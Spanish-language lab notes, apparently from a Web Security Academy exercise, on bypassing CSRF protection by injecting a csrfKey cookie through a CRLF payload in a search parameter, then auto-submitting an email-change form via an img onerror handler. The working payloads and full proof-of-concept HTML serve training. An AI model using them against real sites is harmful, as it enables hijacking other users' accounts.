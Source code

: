 ```bash
/?search=adfa%0D%0ASet-Cookie:%20csrfKey=bjeecNcEJ3OTFXKTNHDALqIqqYOTikim
```
Probamos con el csrfkey de carlos en la petición de wiener
![](assets/2022-07-14-18-06-11.png)

 
Una vez tengo la estructura para el ataque tendremos que mandar en algo que de un error y que cuando de el error lance el autoejecutar

```html
<img src="urlinyectable" onerror="document.forms[0].submit()">
```
Mandamos a poc
```html
<img src="/%3fsearch%3dlalala+SET-Cookie%3a+csrfKey%3dputQLS1W8nY2T9sN2Z5Gndwx53OaFjA6" onerror="document.forms[0].submit()">
La meto dentro del poc y vemos que pasa

```html
<html>
  
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a36001b032ab19fc05058d600f30036.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="adfa&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="YwjH4v9i8PhNkhnnWulQMqlThLU05eDI" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="http://0a36001b032ab19fc05058d600f30036.web-security-academy.net/?search=adfa%0D%0ASet-Cookie:%20csrfKey=0aHhtn9V9azpxVtb4oKg0Jw1DVH2zV2t" onerror="document.forms[0].submit()">
  </body>
</html>
```
Borramos la parte del script y ponemos la imagen. El token csrf tiene que ser el de carlos también

![](assets/2022-07-14-18-11-18.png)
